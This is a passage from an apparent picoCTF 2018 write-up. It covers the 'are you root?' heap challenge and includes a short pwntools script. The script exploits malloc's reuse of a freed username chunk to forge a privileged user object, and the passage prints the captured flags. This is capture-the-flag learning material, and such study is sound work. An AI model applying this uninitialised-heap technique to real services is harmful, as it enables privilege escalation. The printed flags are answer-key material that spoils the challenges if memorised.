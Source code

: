 flag: `picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_73881db0}`

# are you root?

## Problem

Can you get root access through this [service](/blog/picoctf-2018-writeup/Binary Exploitation/are you root/auth) and get the flag? Connect with `nc 2018shell2.picoctf.com 26847`. [Source](/blog/picoctf-2018-writeup/Binary Exploitation/are you root/auth.c).

## Solution

This is one of the most challenging problems for me in this CTF simply because I don't know the heap that well.

However, once I understood the basics, the problem turns out to be not that hard. First, here is a list of resources that I used to learn about the heap and solve this challenge:

* [Hacking Livestream #12: Heap exploitation basics
](https://www.youtube.com/watch?v=OwQk9Ti4mg4)
* [Understanding glibc malloc](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/)
* [shellphish/how2heap](https://github.com/shellphish/how2heap)

The key concept here is that `malloc` reuses freed up space without zeroing them. So if we create a chunk for our username, free the chunk, and create a user object, the user object will have the same space in memory as the username buffer that we just freed. Using this knowledge, we can first craft a user object using the username buffer and then place a user object at the same place which then gives us the flag. Here is the script:

```python
from pwn import *

# same 0x20 size chunk as the user struct
# use `heap chunks` in gef

sh = remote('2018shell2.picoctf.com', 26847)

sh.sendlineafter('> ', 'login {}'.format('\x05'*9))
sh.sendlineafter('> ', 'reset')

sh.sendlineafter('> ', 'login a')
sh.sendlineafter('> ', 'show')
print sh.sendlineafter('> ', 'get-flag')

print sh.interactive()
```

flag: `picoCTF{m3sS1nG_w1tH_tH3_h43p_4baeffe9}`

# gps
